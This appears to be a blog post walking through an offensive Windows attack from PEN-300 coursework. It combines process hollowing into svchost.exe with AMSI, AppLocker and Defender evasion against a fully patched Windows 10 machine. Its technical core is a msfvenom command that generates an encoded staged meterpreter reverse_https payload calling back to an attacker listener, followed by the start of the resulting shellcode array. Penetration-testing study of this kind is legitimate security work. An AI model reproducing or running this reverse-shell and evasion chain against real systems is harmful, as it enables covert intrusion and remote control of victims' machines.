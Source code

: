```yaml
---
title: Process Hollowing with Amsi e AppLocker bypass
# subtitle: "Blog post subtitle :zap:"
summary: The OffSec PEN-300 course teaches staged shellcode injection in Windows binaries, advanced AV evasion, and AppLocker bypass techniques, but does not combine these with process hollowing methods in one single attack vector.
date: 2024-12-08
cardimage: photo1_card.jpeg
featureimage: photo1.jpeg
caption: 
# authors:
#   - Christian: author.jpeg
---
```


## Objective

During the study of PEN-300 by OffSec, one of the best techniques taught is the injection of staged shellcode into Windows binaries like **svchost.exe**. The course also covers advanced AV evasion techniques and AppLocker restriction bypass. Unfortunately, there is no chapter that combines process hollowing with these bypass methods, so in this article, I want to show the implementation.

## The setup

The target machine will be an Windows 10 Enteprise fully updated, at the time I am writing, **22H2** version with these Hotfix:

```cmd
systeminfo

Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB5048161
                           [02]: KB5045936
                           [03]: KB5011048
                           [04]: KB5015684
                           [05]: KB5046613
                           [06]: KB5014032
                           [07]: KB5016705
                           [08]: KB5046823
```

This machine have an Local, non admin account, named **Student** that will simulate out target user.

On top of that tha machine have windows defender fully turn On

{{< figArray subfolder="defender" figCaption="MD settings" >}}

And AppLocker with default rules

{{< figArray subfolder="applocker" figCaption="AppLocker settings" >}}

That prevent the execution of scripts and binary outside default locations of non admin account

```powershell
PS C:\Users\student> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

PS C:\Users\student> copy C:\Windows\System32\calc.exe C:\Users\student\Desktop\;
C:\Users\student\Desktop\calc.exe

Program 'calc.exe' failed to run This program is blocked by group policy. 
For more information, contact your system administrator
```

# The strategy

The idea is to create an managed .dll that inject a staged meterpreter shellcode in the native  [svchost.exe](https://learn.microsoft.com/en-us/windows/application-management/svchost-service-refactoring) process, this process was choice because is normally perform network activities so that our reverse shell should be less easly detected.

Because we hava also defender in place we have to craft our payload in an encrypted and objuscated way, implement some of AV heuristic bypass and diasable AMSI at run time.

Because also there is AppLocker in place our user can't invoke .NEt framework script so we have to implemente a bypass to be able to change the **$ExecutionContext.SessionState.LanguageMode** to **FullLanguage** and be able to execute scripts.

## The Process Hollowing .dll

First of all we generate the staget shell code. I choose the https one so the comunication is encrypted and addes some iteration of the most common encoder

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.191.226 \
LPORT=443 -e x86/shikata_ga_nai -i 3 -f csharp


byte[] buf = new byte[767] {0xbb,0x3b,0xe5,0x6f,0x90,0xd9,  
0xcc,0xd9,0x74,0x24,0xf4,0x5e,0x33,0xc9,0xb1,0xba,0x31,0x5e,
0x12,0x03,0x5e,0x12,0x83,0xd5,0x19,0x8d,0x65,0x96,0x65,0x4e,
0x33,0xfd,0xb3,0xa5,0xe2,0x89,0x67,0xce,0x4e,0x42,0xa1,0x9f,
0xc2,0x95,0x4a,0xf3,0x27,0xae,0xbf,0x70,0xe4,0xd3,0x3e,0x36,
0x25,0x9c,0xf8,0x0e,0x45,0x83,0xdf,0x16,0x3c,0xda,0x0e,...

```